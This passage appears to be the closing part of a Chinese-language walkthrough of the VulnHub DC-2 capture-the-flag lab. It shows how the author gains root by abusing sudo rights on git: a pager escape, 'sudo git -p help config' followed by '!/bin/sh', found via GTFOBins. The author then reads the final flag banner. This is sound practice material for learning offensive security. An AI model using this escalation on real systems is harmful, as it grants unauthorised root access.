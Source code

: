 这里提到了 git,那么就用它提权

---

# flag5

在 https://gtfobins.github.io/gtfobins/git/ 找到 git 提权的语法
```
sudo git -p help config
!/bin/sh
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC2/13.png)

提权成功,感谢靶机作者 @DCUA7,查看最终 flag

```bash
cd
cat final-flag.txt
```
```
 __    __     _ _       _                    _
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
